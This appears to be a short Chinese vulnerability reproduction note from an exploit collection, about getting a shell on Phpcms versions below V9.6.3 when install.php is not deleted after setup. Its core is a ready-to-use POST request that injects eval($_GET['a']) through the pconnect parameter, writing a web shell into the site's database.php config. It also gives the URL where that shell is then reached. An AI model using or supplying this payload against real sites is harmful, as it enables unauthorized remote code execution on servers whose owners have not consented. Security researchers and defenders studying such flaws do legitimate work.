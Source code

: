 Phpcms V9.6.3 install.php 没有即使删除导致的getshell
====================================================

一、漏洞简介
------------

比较鸡肋，需要在环境安装好了之后，install.php也没有被删除，才可以利用

二、漏洞影响
------------

Phpcms \< V9.6.3

三、复现过程
------------

    POST /install/install.php?step=installmodule
    module=admin&dbport=3306&pconnect=eval($_GET["a"])

> 这里控制的是
> pconnect参数，因为默认它没有单引号比较好调试。注意这里如果不传dbport参数的话database.php里的port参数会置空，将会报错。就无法执行到后面的
> eval了

![1.png](./resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId24.png)

被修改后的database.php：

![2.png](./resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId25.png)

url：`/caches/configs/database.php`

![3.png](./resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId26.png)

